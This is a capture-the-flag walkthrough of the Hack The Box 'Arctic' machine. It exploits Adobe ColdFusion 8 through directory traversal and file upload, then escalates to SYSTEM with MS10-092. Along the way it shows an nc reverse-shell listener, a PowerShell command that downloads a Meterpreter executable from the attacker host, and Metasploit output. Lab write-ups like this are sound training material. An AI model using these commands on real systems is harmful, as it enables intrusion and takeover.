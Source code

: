 # Hackthebox 


Before we start lets spin up a fresh instance of the box.

### Attack Summary

1. Exploit Adobe Cold Fusion 8
2. Exploit MS10-092 schelevator

## Recon

First, as always. we perform our initial enumeration of the box using Nmap.

```
# Nmap 7.80 scan initiated Sun Oct 20 14:48:11 2019 as: nmap -v -sV -p- -T4 -oA nmap/full_tcp 10.10.10.11
Nmap scan report for 10.10.10.11
Host is up (0.041s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

At port 8500 we find a Cold Fusion install. We can clearly see that it is a Adobe Cold Fusion 8 version and we have and administrative login at "http://10.10.10.11:8500/CFIDE/administrator/"



## Initial Compromise

The problem with this box is that the web application is very slow. I dont really know why but even a freshly reset box is slow.

### Adobe ColdFusion - Directory Traversal

So we could use the "Adobe ColdFusion - Directory Traversal" exploit to extract some hashes and from that a password. 
The hashes are SHA1 hashed. A simple search online and we find that the password for our hash is "happyday".

I was not able to use this password to log in so I went on to another exploit "ColdFusion 8.0.1 Arbitrary File Upload and Execute".

### ColdFusion 8.0.1 Arbitrary File Upload and Execute

There is a Metasploit module present for this exploit which is making things easy for us. The only problem here is that it will fail because the app is so slow.
We can solve this by using burp as proxy in Metasploit and the fire the exploit from Burp instead.

```
root@kali:~/htb# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.11] 49528
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits during our privesc phase may require a full TTY to work. Trust me, I have learned this the hard way.

Next I upgraded the shell to a Meterpreter session by uploading an executable and running it.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.22:8000/met.exe','met.exe')"
```

## Host situational awareness

Running the local exploit suggester module from Metasploit shows that the target is vulnerable to some exploits:

```
Exploit suggester:
[*] 10.10.10.11 - Collecting local exploits for x64/windows...
[*] 10.10.10.11 - 11 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Post module execution completed
```
 
## Privilege Escalation

We can then simply use one of suggested exploits to gain a system shell on the box:

```
msf5 exploit(windows/local/ms10_092_schelevator) > exploit 

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\sXuWiNWP.exe
[*] Creating task: Kzzt9XjHvJmem0
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\Kzzt9XjHvJmem0...
[*] Original CRC32: 0x98752fbb
[*] Final CRC32: 0x98752fbb
[*] Writing our modified content back...
[*] Validating task: Kzzt9XjHvJmem0
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] Kzzt9XjHvJmem0                           1/11/2019 8:30:00    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "Kzzt9XjHvJmem0" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (180291 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "Kzzt9XjHvJmem0".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.22:4444 -> 10.10.10.11:49373) at 2019-10-24 23:32:22 +0200
[*] SUCCESS: The scheduled task "Kzzt9XjHvJmem0" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
